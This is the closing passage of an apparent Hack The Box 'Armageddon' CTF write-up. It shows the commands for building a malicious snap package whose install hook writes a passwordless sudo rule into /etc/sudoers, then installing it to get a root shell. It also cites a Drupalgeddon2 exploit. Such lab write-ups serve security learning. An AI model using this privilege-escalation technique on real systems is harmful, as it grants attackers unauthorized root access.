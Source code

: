 ```
┌──(kali㉿kali)-[~]
└─$ COMMAND="echo 'brucetherealadmin ALL=(ALL) NOPASSWD:/bin/bash' >> /etc/sudoers"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}

┌──(kali㉿kali)-[/tmp/tmp.CkDpHzKVN8]
└─$ sudo mv xxxx_1.0_all.snap /var/www/html/oh.snap                                

┌──(kali㉿kali)-[/tmp/tmp.CkDpHzKVN8]
└─$
```

Now, after downloading `oh.snap` we execute `sudo /usr/bin/snap install oh.snap --dangerous --devmode` to install the package. This will allow *brucetherealadmin* to execute `sudo /bin/bash` and get us a root shell.

![rootshell](/posts/images/hack-the-box-armageddon-writeup/rootshell.png)  
**Figure 7:** Installing `oh.snap` allows us to `sudo` with no password to gain a root shell.  


# Conclusion   
This box was fairly entertaining, and very straight forward. Sometimes I don't mind an easy one at all. Obviously the way that the root shell is achieved should be cleaned up if we cared at all about hiding our tracks :).

# References
1. [Drupalgeddon2 Exploit](https://www.exploit-db.com/exploits/44449)
2. [GTFO Bins for snap + sudo](https://gtfobins.github.io/gtfobins/snap/)
